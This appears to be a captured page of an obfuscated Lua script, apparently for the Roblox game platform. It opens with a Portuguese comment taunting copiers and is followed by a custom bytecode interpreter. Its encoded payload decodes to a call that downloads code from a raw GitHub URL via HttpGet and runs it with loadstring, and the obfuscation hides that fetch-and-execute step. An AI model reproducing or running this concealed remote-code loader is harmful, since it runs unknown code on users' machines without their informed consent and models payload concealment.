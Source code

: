 --[[
Quer copiar ainda??? Pelo amor de deus viu
]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function()return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...)local v18=0;local v19;local v20;local v21;local v22;local v23;local v24;local v25;local v26;local v27;local v28;local v29;local v30;while true do if (v18==5) then v27=v24;v28=nil;function v28(...)return {...},v12("#",...);end v18=6;end if (v18==1) then v21=nil;function v21(v31,v32,v33)if v33 then local v70=(v31/((5 -(1 + 2))^(v32-((1 + 1) -1))))%((879 -(282 + 595))^(((v33-(1 -(1637 -(1523 + 114)))) -(v32-(2 -1))) + (620 -(555 + 64)))) ;return v70-(v70%1) ;else local v71=2^(v32-(932 -(857 + 74))) ;return (((v31%(v71 + v71))>=v71) and (569 -(367 + 201))) or (927 -(214 + 713)) ;end end v22=nil;v18=2;end if (v18==3) then v24=nil;function v24()local v34,v35,v36,v37=v1(v16,v19,v19 + (12 -9) + 0 );v19=v19 + (5 -1) ;return (v37 * (16778281 -(68 + 997))) + (v36 * 65536) + (v35 * (1526 -(226 + (1161 -(32 + 85))))) + v34 ;end v25=nil;v18=4;end if (v18==6) then v29=nil;function v29()local v38=0;local v39;local v40;local v41;local v42;local v43;local v44;local v45;local v46;while true do if (v38==(8 -4)) then while true do if (v39~=(2 -0)) then else local v95=0;while true do if (v95==(0 -0)) then v44=nil;v45=nil;v95=342 -(218 + 123) ;end if (v95==(1 + 0)) then v39=6 -3 ;break;end end end if (v39==(14 -(9 + 5))) then local v96=0;while true do if (1==v96) then v39=561 -(306 + 254) ;break;end if (v96==(376 -(85 + 291))) then v40=0;v41=nil;v96=1;end end end if (v39==(1266 -(243 + 1022))) then local v97=0 -0 ;while true do if (v97==(1 + 0)) then v39=2;break;end if (v97==0) then v42=nil;v43=nil;v97=1181 -(1123 + 57) ;end end end if (v39==(3 + 0)) then v46=nil;while true do local v98=254 -(163 + 91) ;while true do if ((1930 -(1869 + 61))~=v98) then else local v103=0 + 0 ;while true do if (v103==(3 -2)) then v98=1 -0 ;break;end if (v103~=0) then else if (v40==0) then v41={};v42={};v43={};v40=1 + 0 ;end if (v40==(606 -(268 + 335))) then for v155=1 -0 ,v24() do v42[v155-(1 + 0) ]=v29();end return v44;end v103=1475 -(1329 + 145) ;end end end if (v98==(291 -(60 + 230))) then if (v40~=(574 -(426 + 146))) then else local v123=971 -(140 + 831) ;while true do if (v123~=(1851 -(1409 + 441))) then else for v157=1,v24() do local v158=1456 -(282 + 1174) ;local v159;local v160;while true do if (v158==(812 -(569 + 242))) then while true do if (v159~=(718 -(15 + 703))) then else v160=v22();if (v21(v160,1 + 0 ,439 -(262 + 176) )==0) then local v171=1721 -(345 + 1376) ;local v172;local v173;local v174;local v175;while true do if (2==v171) then while true do if (v172~=(688 -(198 + 490))) then else v173=v21(v160,2,3);v174=v21(v160,1275 -(945 + 326) ,26 -20 );v172=2 -1 ;end if (v172==3) then if (v21(v174,3,3 + 0 )==1) then v175[1210 -(696 + 510) ]=v46[v175[7 -3 ]];end v41[v157]=v175;break;end if (v172==(1264 -(1091 + 171))) then local v177=0 + 0 ;while true do if (v177==(0 + 0)) then if (v21(v174,1087 -(461 + 625) ,1289 -(993 + 295) )~=(3 -2)) then else v175[1173 -(418 + 753) ]=v46[v175[2]];end if (v21(v174,1 + 1 ,6 -4 )~=1) then else v175[3]=v46[v175[377 -(123 + 251) ]];end v177=1 + 0 ;end if (v177~=(1 + 0)) then else v172=14 -11 ;break;end end end if (v172==1) then local v178=698 -(208 + 490) ;while true do if ((1 + 0)==v178) then v172=1771 -(1749 + 20) ;break;end if (v178==(0 + 0)) then v175={v23(),v23(),nil,nil};if (v173==(0 + 0)) then local v185=0;local v186;local v187;while true do if (v185~=0) then else v186=1322 -(1249 + 73) ;v187=nil;v185=1;end if (v185==1) then while true do if (v186~=(0 + 0)) then else v187=202 -(14 + 188) ;while true do if (v187==(0 + 0)) then v175[3]=v23();v175[1149 -(466 + 679) ]=v23();break;end end break;end end break;end end elseif (v173==(2 -1)) then v175[678 -(534 + 141) ]=v24();elseif (v173==(1 + 1)) then v175[1 + 2 ]=v24() -((1 + 1)^(15 + 1)) ;elseif (v173==(3 + 0)) then local v190=0;local v191;while true do if (v190==(0 -0)) then v191=0 -0 ;while true do if (v191==0) then v175[8 -5 ]=v24() -((586 -(57 + 527))^(1443 -(41 + 1386))) ;v175[3 + 1 ]=v23();break;end end break;end end end v178=1 + 0 ;end end end end break;end if (v171~=(396 -(115 + 281))) then else v172=0 -0 ;v173=nil;v171=1;end if (v171~=(1 + 0)) then else v174=nil;v175=nil;v171=4 -2 ;end end end break;end end break;end if (v158==(0 -0)) then v159=0 -0 ;v160=nil;v158=868 -(550 + 317) ;end end end v40=3 -0 ;break;end if (v123==0) then for v161=1 -0 ,v45 do local v162=0 + 0 ;local v163;local v164;local v165;while true do if (v162~=(2 -1)) then else v165=nil;while true do if (v163~=(286 -(134 + 151))) then else if (v164==(1666 -(970 + 695))) then v165=v22()~=(0 -0) ;elseif (v164==(1259 -(1043 + 214))) then v165=v25();elseif (v164~=(1993 -(582 + 1408))) then else v165=v26();end v46[v161]=v165;break;end if (v163==(0 -0)) then local v170=0 -0 ;while true do if (v170==(0 -0)) then v164=v22();v165=nil;v170=1825 -(1195 + 629) ;end if (v170~=(1 -0)) then else v163=321 -(53 + 267) ;break;end end end end break;end if (v162==0) then v163=241 -(187 + 54) ;v164=nil;v162=1;end end end v44[783 -(162 + 618) ]=v22();v123=1;end end end if (v40==(1 + 0)) then local v124=0;local v125;while true do if (v124==(0 + 0)) then v125=0 -0 ;while true do if (v125==(0 -0)) then local v166=0 + 0 ;while true do if (v166==(0 -0)) then v44={v41,v42,nil,v43};v45=v24();v166=1 + 0 ;end if (v166~=(1637 -(1373 + 263))) then else v125=1001 -(451 + 549) ;break;end end end if (v125~=1) then else v46={};v40=1 + 1 ;break;end end break;end end end break;end end end break;end end break;end if (v38==2) then v43=nil;v44=nil;v38=741 -(542 + 196) ;end if (v38==(0 -0)) then v39=0 -0 ;v40=nil;v38=1;end if ((4 -1)==v38) then v45=nil;v46=nil;v38=4;end if (v38==(1385 -(746 + 638))) then v41=nil;v42=nil;v38=1 + 1 ;end end end v30=nil;v18=7;end if (v18==4) then function v25()local v47=v24();local v48=v24();local v49=1 + 0 ;local v50=(v21(v48,(1 + 1) -1 ,51 -31 ) * ((1553 -(1126 + 425))^(437 -(118 + (1386 -1099))))) + v47 ;local v51=v21(v48,82 -61 ,1152 -((328 -210) + 1003) );local v52=((v21(v48,93 -61 )==(378 -(50 + 92 + 235))) and  -1) or 1 ;if (v51==(0 -(1329 -(797 + 532)))) then if (v50==(0 + 0)) then return v52 * (977 -(553 + 424)) ;else v51=1 -0 ;v49=0 + 0 ;end elseif (v51==2047) then return ((v50==(0 + 0)) and (v52 * (1/(0 + 0)))) or (v52 * NaN) ;end return v8(v52,v51-((973 -538) + 588) ) * (v49 + (v50/((2 + 0)^(112 -60)))) ;end v26=nil;function v26(v53)local v54;if  not v53 then v53=v24();if (v53==0) then return "";end end v54=v3(v16,v19,(v19 + v53) -(1 + 0) );v19=v19 + v53 ;local v55={};for v68=1 + 0 , #v54 do v55[v68]=v2(v1(v3(v54,v68,v68)));end return v6(v55);end v18=5;end if (v18==2) then function v22()local v56=v1(v16,v19,v19);v19=v19 + 1 ;return v56;end v23=nil;function v23()local v57=0 -0 ;local v58;local v59;while true do if ((1202 -((677 -304) + 829))==v57) then v58,v59=v1(v16,v19,v19 + (733 -(476 + 255)) );v19=v19 + (1132 -(369 + 761)) ;v57=1;end if (v57==1) then return (v59 * (149 + 107)) + v58 ;end end end v18=3;end if (v18==0) then v19=1;v20=nil;v16=v4(v3(v16,5),"..",function(v60)if (v1(v60,2)==79) then v20=v0(v3(v60,1,1));return "";else local v72=v2(v0(v60,16));if v20 then local v76=0;local v77;while true do if (v76==0) then v77=v5(v72,v20);v20=nil;v76=1;end if (v76==1) then return v77;end end else return v72;end end end);v18=1;end if (v18==7) then function v30(v61,v62,v63)local v64=0;local v65;local v66;local v67;while true do if (v64==1) then v67=v61[3];return function(...)local v78=v65;local v79=v66;local v80=v67;local v81=v28;local v82=1;local v83= -1;local v84={};local v85={...};local v86=v12("#",...) -1 ;local v87={};local v88={};for v92=0,v86 do if (v92>=v80) then v84[v92-v80 ]=v85[v92 + 1 ];else v88[v92]=v85[v92 + 1 ];end end local v89=(v86-v80) + 1 ;local v90;local v91;while true do v90=v78[v82];v91=v90[1];if (v91<=3) then if (v91<=1) then if (v91==0) then local v104=0;local v105;local v106;while true do if (1==v104) then v88[v105 + 1 ]=v106;v88[v105]=v106[v90[4]];break;end if (v104==0) then v105=v90[2];v106=v88[v90[3]];v104=1;end end else do return;end end elseif (v91>2) then v88[v90[2]]();else local v107=v90[2];local v108,v109=v81(v88[v107](v13(v88,v107 + 1 ,v90[3])));v83=(v109 + v107) -1 ;local v110=0;for v126=v107,v83 do v110=v110 + 1 ;v88[v126]=v108[v110];end end elseif (v91<=5) then if (v91>4) then local v111=0;local v112;local v113;local v114;local v115;local v116;while true do if (v111==4) then v113,v114=v81(v88[v116](v13(v88,v116 + 1 ,v90[3])));v83=(v114 + v116) -1 ;v112=0;for v153=v116,v83 do local v154=0;while true do if (v154==0) then v112=v112 + 1 ;v88[v153]=v113[v112];break;end end end v82=v82 + 1 ;v111=5;end if (v111==6) then v88[v90[2]]();v82=v82 + 1 ;v90=v78[v82];do return;end break;end if (v111==3) then v90=v78[v82];v88[v90[2]]=v90[3];v82=v82 + 1 ;v90=v78[v82];v116=v90[2];v111=4;end if (v111==5) then v90=v78[v82];v116=v90[2];v88[v116]=v88[v116](v13(v88,v116 + 1 ,v83));v82=v82 + 1 ;v90=v78[v82];v111=6;end if (v111==1) then v82=v82 + 1 ;v90=v78[v82];v88[v90[2]]=v63[v90[3]];v82=v82 + 1 ;v90=v78[v82];v111=2;end if (v111==0) then v112=nil;v113,v114=nil;v115=nil;v116=nil;v88[v90[2]]=v63[v90[3]];v111=1;end if (v111==2) then v116=v90[2];v115=v88[v90[3]];v88[v116 + 1 ]=v115;v88[v116]=v115[v90[4]];v82=v82 + 1 ;v111=3;end end else local v117=v90[2];v88[v117]=v88[v117](v13(v88,v117 + 1 ,v83));end elseif (v91>6) then v88[v90[2]]=v90[3];else v88[v90[2]]=v63[v90[3]];end v82=v82 + 1 ;end end;end if (0==v64) then v65=v61[1];v66=v61[2];v64=1;end end end return v30(v29(),{},v17)(...);end end end v15("LOL!043O00030A3O006C6F6164737472696E6703043O0067616D6503073O00482O7470476574034F3O00682O7470733A2O2F7261772E67697468756275736572636F6E74656E742E636F6D2F506564726F787A4879707O652F6761797A613O6F693O6F2F6D61696E2F524541444D452E6D6400083O0012053O00013O00122O000100023O00202O00010001000300122O000300046O000100039O0000026O000100016O00017O00",v9(),...);
